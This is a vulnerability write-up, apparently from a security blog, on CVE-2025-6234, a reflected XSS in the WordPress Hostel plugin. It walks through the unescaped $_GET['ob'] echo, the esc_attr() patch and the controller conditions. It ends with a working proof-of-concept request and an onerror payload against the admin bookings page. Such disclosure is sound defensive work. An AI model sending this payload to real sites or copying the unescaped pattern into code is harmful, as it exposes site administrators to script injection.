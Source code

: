 ```yaml
---
title: CVE-2025-6234 Analysis & POC
description: Security Vulnerability in WordPress Hostel Plugin.
date: 2025-10-02 20:00:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, xss]
weight: 1
images: []
featuredImage: "app.png"

lightgallery: true

toc:
auto: false
---
```


---

The vulnerability exists in the **Hostel** plugin for WordPress prior to version **1.1.5.8**. An attacker could exploit it to target high-privilege users like **admins**.

* **CVE ID**: [CVE-2025-6234](https://www.cve.org/CVERecord?id=CVE-2025-6234)
* **Product**: [WordPress Hostel Plugin](https://wordpress.org/plugins/hostel/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: < 1.1.5.8
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

---

## Requirements

* [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
* **Hostel Plugin**: v1.1.5.7 (vulnerable) and v1.1.5.8 (patched)
* **Diff tool**: meld or any tool that can compare two versions

---

## Analysis

The root cause is the lack of **sanitization** and **escaping** for a parameter before rendering it on the page, leading to a **Reflected Cross-Site Scripting (XSS)** vulnerability.

### Patch Diff

Use any diff tool to compare the vulnerable version and the patch.
The differences are clearly in two files: **views/bookings.html.php** and **controllers/bookings.php**

**File views/bookings.html.php**

```php
<p align="center">
    <?php if($offset > 0):?>
        <a href="admin.php?page=wphostel_bookings&type=<?php echo $type?>&offset=<?php echo $offset - $page_limit?>&ob=<?php echo @$_GET['ob']?>"><?php _e('[previous page]', 'wphostel')?></a>
    <?php endif;?> 
    <?php if($count > ($page_limit + $offset)):?>
        <a href="admin.php?page=wphostel_bookings&type=<?php echo $type?>&offset=<?php echo $offset + $page_limit?>&ob=<?php echo @$_GET['ob']?>"><?php _e('[next page]', 'wphostel')?></a>
    <?php endif;?>	
</p>
```

The parameter `ob` is directly taken from `$_GET['ob']` and echoed into an HTML attribute **without escaping**, making it vulnerable to **Reflected XSS**, since an attacker can inject payloads into the query string.

**Patched Code**

```php
<p align="center">
    <?php if($offset > 0):?>
        <a href="admin.php?page=wphostel_bookings&type=<?php echo $type?>&offset=<?php echo $offset - $page_limit?>&ob=<?php echo esc_attr($_GET['ob'] ?? '')?>"><?php _e('[previous page]', 'wphostel')?></a>
    <?php endif;?> 
    <?php if($count > ($page_limit + $offset)):?>
        <a href="admin.php?page=wphostel_bookings&type=<?php echo $type?>&offset=<?php echo $offset + $page_limit?>&ob=<?php echo esc_attr($_GET['ob'] ?? '')?>"><?php _e('[next page]', 'wphostel')?></a>
    <?php endif;?>	
</p>
```

The patch uses `esc_attr()` to safely encode `$_GET['ob']` before echoing into the HTML attribute.

![diff](diff_code.png "Diff showing patched and vulnerable code")

* Source: `$_GET['ob']` is **client-controlled input** from the URL query string.
* Sink: echoed in an **HTML attribute** `ob=<?php echo @$_GET['ob']?>`.

👉 Because the source does not go through controller logic, the diff of **controllers/bookings.php** is less relevant.

### How it works

For `$_GET['ob']` to be echoed in the HTML attribute of `<a>`, the `if` condition enclosing `<a>` must be true:

```php
<?php if($offset > 0):?>
// ob=<?php echo @$_GET['ob']?>
<?php endif;?> 
<?php if($count > ($page_limit + $offset)):?>
// ob=<?php echo @$_GET['ob']?>
<?php endif;?>	
```

👉 The key condition is `if($offset > 0)`. If true, the XSS can occur regardless of the second condition.

The **views/bookings.html.php** file cannot be accessed directly; it must be included by the **controller** using `include()`.

The `$offset` variable is initialized in the controller and passed to the view.

Searching the plugin controllers shows that `$offset` is set in the `default` branch (**listing bookings**) of the static `manage()` method in class `WPHostelBookings` in **controllers/bookings.php**.

**Controller Code**

```php
class WPHostelBookings {
    static function manage() {
        global $wpdb;
        $_booking = new WPHostelBooking();

        switch(@$_GET['do']) {
            // other logic
            
            // list bookings
            default:
                $type = empty($_GET['type']) ? 'upcoming' : sanitize_text_field($_GET['type']);
                $offset = empty($_GET['offset']) ? 0 : intval($_GET['offset']);
                $dir = empty($_GET['dir']) ? 'ASC' : $_GET['dir'];
                if($dir != 'ASC' and $dir != 'DESC') $dir = 'ASC';
                $odir = ($dir == 'ASC') ? 'DESC' : 'ASC';
                
                $page_limit = 20;
                $limit_sql = empty($_GET['export']) ? $wpdb->prepare("LIMIT %d, %d", $offset, $page_limit) : ''; 
                
                $bookings = $wpdb->get_results("SELECT SQL_CALC_FOUND_ROWS tB.*, tR.title as room 
                    FROM ".WPHOSTEL_BOOKINGS." tB JOIN ".WPHOSTEL_ROOMS." tR ON tR.id = tB.room_id
                    WHERE is_static=0 $where_sql $orderby $limit_sql");
                $count = $wpdb->get_var("SELECT FOUND_ROWS()");	
                
                if(@file_exists(get_stylesheet_directory().'/wphostel/bookings.html.php')) include get_stylesheet_directory().'/wphostel/bookings.html.php';
                else include(WPHOSTEL_PATH."/views/bookings.html.php");				  
            break;
        }
    }
}
```

**Analysis of `$offset`**

* `$offset` comes from the URL parameter `$_GET['offset']`:

  * Absent → defaults to 0
  * Present → cast to integer via `intval()`

```php
$offset = empty($_GET['offset']) ? 0 : intval($_GET['offset']);
```

**Analysis of `$page_limit`**

* `$page_limit` is fixed at `20` for pagination

```php
$page_limit = 20;
$limit_sql = empty($_GET['export']) ? $wpdb->prepare("LIMIT %d, %d", $offset, $page_limit) : ''; 
```

This ensures SQL returns up to **20 records** starting from `$offset`.

**XSS condition in view**:

* The payload displays only if `if($offset > 0)` → requires at least **1 offset**
* Exploit requires at least **2 bookings** in the database to render payload

The controller passes results to the view using:

```php
if(@file_exists(get_stylesheet_directory().'/wphostel/bookings.html.php')) include get_stylesheet_directory().'/wphostel/bookings.html.php';
else include(WPHOSTEL_PATH."/views/bookings.html.php");	
```

`WPHOSTEL_PATH` is the absolute path to the plugin directory.

![search path](search_path.png "Absolute path to the plugin directory")

---

## Exploit

**Request with XSS payload**

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=upcoming&offset=1&ob="><img+src%3D1+onerror%3Dalert%28document.domain%29> HTTP/1.1
```

**Payload**

```html
"><img src=x onerror=alert(document.domain)>
```

* Closes `<a>` tag with `">`
* Adds `<img>` tag with `onerror` to trigger JavaScript
* Uses `alert(document.domain)` to clearly demonstrate DOM access

**Result**

![xss success](xss_success.png "Reflected XSS triggered successfully")

---

## Conclusion

The **CVE-2025-6234** vulnerability in the **WordPress Hostel** plugin stems from improper handling of input `($_GET['ob'])` before rendering. This allows an attacker to inject **Reflected XSS**.

The patch fixes it by using `esc_attr()` to escape the input, ensuring untrusted values cannot inject malicious scripts.

**Key takeaways**:

* Always **sanitize** input and **escape** output according to context.
* In WordPress, leverage built-in functions like `sanitize_text_field()`, `esc_attr()`, `esc_html()`, `wp_kses()` to mitigate security risks.

---

## References

[XSS Cross-site scripting (XSS) cheat sheet - PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Hostel Plugin < 1.1.5.8 is vulnerable to Cross Site Scripting (XSS) - patchstack](https://patchstack.com/database/wordpress/plugin/hostel/vulnerability/wordpress-hostel-plugin-1-1-5-8-reflected-xss-vulnerability)

---
